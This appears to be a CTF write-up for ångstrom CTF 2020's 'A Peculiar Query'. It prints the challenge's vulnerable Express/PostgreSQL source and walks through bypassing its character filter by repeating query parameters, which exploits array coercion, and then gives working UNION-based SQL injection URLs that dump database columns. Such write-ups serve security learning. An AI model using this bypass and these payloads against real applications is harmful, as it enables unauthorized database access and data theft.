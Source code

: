 ```yaml
---
title: ångstrom CTF 2k20 - Web Exploitation
summary: 
date: "2020-03-19T00:00:00Z"

reading_time: true  # Show estimated reading time?
share: true  # Show social sharing links?
profile: true  # Show author profile?
comments: true  # Show comments?
# Optional header image (relative to `static/img/` folder).
header:
  caption: ""
  image: ""
---
```

# **A Peculiar Query (180pts) (73 Solves)** #

![TASK](https://imgur.com/A6EHPkW.png)

I really liked this web task , we are given this web page that have a search functionality 

![TASK](https://imgur.com/gRutDcV.png)

And we can read the source code 

```javascript

const express = require("express");
const rateLimit = require("express-rate-limit");
const app = express();
const { Pool, Client } = require("pg");
const port = process.env.PORT || 9090;
const path = require("path");

const client = new Client({
	user: process.env.DBUSER,
	host: process.env.DBHOST,
	database: process.env.DBNAME,
	password: process.env.DBPASS,
	port: process.env.DBPORT
});

async function query(q) {
	const ret = await client.query(`SELECT name FROM Criminals WHERE name ILIKE '${q}%';`);
	return ret;
}

app.set("view engine", "ejs");

app.use(express.static("public"));

app.get("/src", (req, res) => {
	res.sendFile(path.join(__dirname, "index.js"));
});

app.get("/", async (req, res) => {
	if (req.query.q) {
		try {
			let q = req.query.q;
			// no more table dropping for you
			let censored = false;
			for (let i = 0; i < q.length; i ++) {
				if (censored || "'-\".".split``.some(v => v == q[i])) {
					censored = true;
					q = q.slice(0, i) + "*" + q.slice(i + 1, q.length);
				}
			}
			q = q.substring(0, 80);
			const result = await query(q);
			res.render("home", {results: result.rows, err: ""});
		} catch (err) {
			console.log(err);
			res.status(500);
			res.render("home", {results: [], err: "aight wtf stop breaking things"});
		}
	} else {
		res.render("home", {results: [], err: ""});
	}
});

app.listen(port, function() {
	client.connect();
	console.log("App listening on port " + port);
});

```

## Overview ##

It's pretty obvious that we have an sql injection here ( we are concatenating the user input )
> 	const ret = await client.query(`SELECT name FROM Criminals WHERE name ILIKE '${q}%';`);

But as we can see some filters are here :'( these characters are filtered : [',-,",.] , after some tries i have figured that it will be impossible to bypass 
them so i started looking to some JS tricks.
As we can see the filter function is looping over our input and checks if there are some prohibited characters and then it will replace 
them with "*" , For example if we type 
> hello"or 1=1 -- -

Our input will be changed to :
> hello************

```javascript
let q = req.query.q;
let censored = false;
for (let i = 0; i < q.length; i ++) {
	if (censored || "'-\".".split``.some(v => v == q[i])) {
			censored = true;
			q = q.slice(0, i) + "*" + q.slice(i + 1, q.length);
			}
}
```			

And finally it's using substring function to limit our input's length to 80 characters

```javascript
q = q.substring(0, 80);
const result = await query(q);
res.render("home", {results: result.rows, err: ""});
```
Hmmm everything seems okay nah ? but it's a ctf web task we have to find some vulnerabilities ! let's pass to how i did to solve it now, enough boring things

## Exploitation ##

The first thing i thinked about was http parameter pollution in express (read about it **[HERE](https://github.com/expressjs/express/issues/1824)** if you want ) ,briefly when we enter a get parameter multiple times express 
has a weird interpretation , it will process this parameter as an array for example here, if we pass this in the query :
> ?q=hello&q=allo&q=fword

**req.query.q** will be parsed as an array **["hello","allo","fword"]** , so if we go further when we will be iterating of **q** variable we will be comparing each array field with the filters 
for example, if we pass this query :
>q="or 1=1 -- -&q=fword

we will firstly compare **"or 1=1 -- -** and then the second field **fword** with these filtered chars **[',-,",.]** , they are not equal ! , Youupi we can get our flag now as we passed the check .

Unfortunately , it's not that easy ,have you forgot the substring function ? an array has not a built in substring function so when we reach the substring part this will raise an error so we won't execute the sql query :/
Javascript weird behaviour will save us this time ! if we do **[]+[]** the result is a string , the sum of two arrays is a string so if we enter a **"** in one query parameter
we will enter this part 

```javascript
censored = true;
q = q.slice(0, i) + "*" + q.slice(i + 1, q.length);
```
and arrays have a built in slice function so the result of **[]+"*"+[]** will be a string , we can now enter our payload with **q='** in the end to ensure that our array will be a string when it reaches the substring part
For example :
>q='or 1=1 -- -&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q='

will let us pass !

**FILTERS BYPASSED SUCCESSFULLY**

To test the number of q parameters and debug the app , i changed a little bit the source code and hosted the web app locally , you can find the modified source code **[HERE](https://github.com/kahla-sec/CTF-Writeups/blob/master/%C3%A5ngstromCTF2k20/A%20Peculiar%20Query/app.js)** if you want to test :D

![TASK](https://imgur.com/upRUoxR.png)


The next part is pretty classic , a simple sql injection , we will first dump the columns name (we know the table name from the source code)
> q=%27union%20SELECT%20column_name%20FROM%20information_schema.columns%20--%20-&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=%27

![TASK](https://imgur.com/XAVrsrR.png)


and finally we find a column named **crime** so our final payload will be :
>HOST/?q=%27union%20SELECT%20crime%20FROM%20criminals%20--%20-&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=%27

![TASK](https://imgur.com/7KWe6dF.png)

And Congratulations ! I want to thank the organizers for this great CTF and fun tasks , i have really enjoyed participating

